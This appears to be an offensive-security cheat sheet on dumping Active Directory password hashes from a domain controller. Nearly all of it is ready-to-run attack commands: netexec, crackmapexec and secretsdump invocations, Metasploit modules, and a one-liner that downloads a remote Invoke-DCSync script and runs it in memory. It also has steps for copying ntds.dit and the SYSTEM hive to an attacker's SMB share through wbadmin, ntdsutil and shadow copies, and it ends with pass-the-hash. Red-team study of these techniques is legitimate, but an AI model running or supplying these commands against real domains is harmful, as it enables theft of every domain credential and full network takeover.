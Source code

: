 # Dump NTDS from Domain Controller

## Tools: CrackMapExec/Netexec , secretsdump , ntdsutil , metasploit , certsync

    netexec smb DC_IP -u USER -p PASSWORD -d DOMAIN --ntds

    impacket-secretsdump 'DOMAIN/USER:PASSWORD'@IP

    windows/gather/credentials/domain_hashdump (Metasploit)

    certsync -u USER -p PASSWORD -d DOMAIN -dc-ip DC_IP -ns NAMESERVER_IP

    use auxiliary/admin/smb/psexec_ntdsgrab (Metasploit)

### Invoke-DCSync

##### Load into memory

    IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

##### Execute

    Invoke-DCSync -dcfqdn DC01.security.local -username administrator


### NTDSUtil

 - ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q (On the DC)

 - impacket-secretsdump -ntds NTDS_FILE.dit -system SYSTEM_FILE -hashes LMHASH:NTHASH LOCAL -outputfile ntlm-extract

### With these techniques you can move everywhere within the entire domain, as well as possibly compromise the Enterprise Admin (in this case it's game over)

# DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) 

    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) 

    python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### 

    adduser smbuser

#### 

    smbpasswd -a smbuser

#### 

    sudo service smbd restart 

#### 2) Mount the share

    net use k: \\OUR_IP\SHARE /user:smbuser smbpass 

#### 3) Backup NTDS folder

    echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds 

#### 4) Retrieve the version of the backup

    sbadmin get versions 

#### 5) Restore the NTDS file, specifying the backup version

    echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl 

#### 6) Export the system hive

    reg save HKLM\SYSTEM C:\system.hive 

#### 7) Transfer the ntds.dit file to our share

    cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) Transfer the system hive to our share

    cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) Dump hashes from NTDS

    impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT

# CRACKMAPEXEC

#### 1) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds

#### 2) 

    crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi

#### 3) 

    crackmapexec smb 10.10.0.202 -u username -p password --ntds vss

# VOLUME SHADOW COPY (VSS)

#### 1) 

    vssadmin create shadow /for=C:

#### 2) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy

#### 3) 

    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy

# NTDS Reversible Encryption

### UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED (0x00000080), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

### The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin. This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

#### 1) List users with "Store passwords using reversible encryption" enabled

    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

### The password retrieval is already handled by SecureAuthCorp/secretsdump.py and mimikatz, it will be displayed as CLEARTEXT.

